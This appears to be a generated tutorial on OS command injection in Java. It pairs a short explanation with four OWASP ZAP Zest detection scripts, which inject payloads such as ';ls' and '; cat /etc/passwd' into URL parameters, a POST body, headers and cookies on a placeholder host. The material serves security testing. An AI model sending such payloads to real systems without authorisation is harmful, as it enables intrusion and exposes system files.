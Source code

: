 # Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') (CWE-078) in Java

###### Explanation of Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

**Overview:**
OS Command Injection vulnerabilities occur when an application constructs and executes shell commands directly from user input. An attacker can manipulate this input to execute arbitrary commands on the host operating system. This vulnerability can lead to significant security breaches, including unauthorized data access, data corruption, and complete system compromise.

**Manifestation in Java Applications:**
In Java-based web applications, OS command injection vulnerabilities often arise when user-supplied data is passed directly to system-level commands using methods such as `Runtime.exec()`. Popular Java frameworks like Spring and Struts can also inadvertently expose applications to these risks if not properly secured.

**Common Injection Points:**
1. **URL Parameters:** Directly passing user input from URL parameters to command execution.
2. **HTTP Request Bodies:** Including user inputs within POST data which are then used in command execution.
3. **HTTP Headers:** Utilizing header values without proper sanitizations, such as User-Agent or Cookie values.
4. **Cookies:** Using cookie values directly in commands.
5. **Query Strings:** User input in query strings being appended to commands.

### Indicators of Success:
Typical indicators that an OS command injection has succeeded include:
- **Error messages** revealing execution details or system specifics (e.g., output of commands).
- **HTTP Response Codes** that deviate from normal behaviors.
- **Response Content** that includes unexpected or attacker-introduced data.

### OWASP ZAP Zest Scripts for Detecting OS Command Injection

#### Script 1: Detection via URL Parameters
```json
{
  "about": "Detect OS Command Injection via URL parameters",
  "title": "URL Parameter OS Command Injection Detection",
  "description": "This script checks for OS command injection in URL parameters by injecting command injection patterns and inspecting the response.",
  "prefix": "",
  "statements": [
    {
      "url": "http://targetapplication.com/test?param1=test;ls",
      "method": "GET",
      "headers": "",
      "index": 1,
      "elementType": "ZestRequest"
    },
    {
      "regex": "total ",
      "location": "BODY",
      "ifStatements": [
        {
          "message": "Potential Command Injection in URL Parameter",
          "elementType": "ZestActionFail"
        }
      ],
      "elseStatements": [],
      "index": 2,
      "elementType": "ZestConditionRegex"
    }
  ],
  "elementType": "ZestScript"
}
```

#### Script 2: Detection via HTTP Request Body
```json
{
  "about": "Detect OS Command Injection via HTTP request body",
  "title": "Request Body OS Command Injection Detection",
  "description": "This script checks for OS command injection in HTTP request body by injecting command execution patterns and inspecting the response.",
  "prefix": "",
  "statements": [
    {
      "url": "http://targetapplication.com/public/doc",
      "method": "POST",
      "headers": "Content-Type: application/x-www-form-urlencoded",
      "data": "param=Doc1.pdf; cat /etc/passwd",
      "index": 1,
      "elementType": "ZestRequest"
    },
    {
      "regex": "root:x",
      "location": "BODY",
      "ifStatements": [
        {
          "message": "Potential Command Injection in Request Body",
          "elementType": "ZestActionFail"
        }
      ],
      "elseStatements": [],
      "index": 2,
      "elementType": "ZestConditionRegex"
    }
  ],
  "elementType": "ZestScript"
}
```

#### Script 3: Detection via HTTP Headers
```json
{
  "about": "Detect OS Command Injection via HTTP headers",
  "title": "Header OS Command Injection Detection",
  "description": "This script checks for OS command injection in HTTP headers by injecting command execution patterns and inspecting the response.",
  "prefix": "",
  "statements": [
    {
      "url": "http://targetapplication.com/test",
      "method": "GET",
      "headers": "User-Agent: acme; ls",
      "index": 1,
      "elementType": "ZestRequest"
    },
    {
      "regex": "total ",
      "location": "BODY",
      "ifStatements": [
        {
          "message": "Potential Command Injection in HTTP Header",
          "elementType": "ZestActionFail"
        }
      ],
      "elseStatements": [],
      "index": 2,
      "elementType": "ZestConditionRegex"
    }
  ],
  "elementType": "ZestScript"
}
```

#### Script 4: Detection via Cookies
```json
{
  "about": "Detect OS Command Injection via Cookie values",
  "title": "Cookie OS Command Injection Detection",
  "description": "This script checks for OS command injection in cookies by injecting command execution patterns and inspecting the response.",
  "prefix": "",
  "statements": [
    {
      "url": "http://targetapplication.com/test",
      "method": "GET",
      "headers": "Cookie: sessionid=test; ls",
      "index": 1,
      "elementType": "ZestRequest"
    },
    {
      "regex": "total ",
      "location": "BODY",
      "ifStatements": [
        {
          "message": "Potential Command Injection in Cookie Value",
          "elementType": "ZestActionFail"
        }
      ],
      "elseStatements": [],
      "index": 2,
      "elementType": "ZestConditionRegex"
    }
  ],
  "elementType": "ZestScript"
}
```

### Explanation of Script Design

1. **ZestRequest:**
   - Constructs HTTP requests, including necessary headers, URLs, and data.
2. **ZestConditionRegex:**
   - Checks responses for patterns indicating successful command execution.
3. **ZestActionFail:**
   - Triggers if the condition (presence of command execution output) is met.
   
### Minimizing False Positives/Negatives
- **Comprehensive Injection Patterns:** Scripts deploy varied patterns typical for OS injection.
- **Targeted Regex Conditions:** Assertions look for definitive proof of injection success, like directory listings or sensitive file dumps.

### Conclusion
Using the scripts effectively demands understanding injection points and studying server responses. Combining multiple scripts improves detection reliability, covering different vectors and formats.

**References:**
- Zest scripting Documentation  .
- OS command injection testing guides    .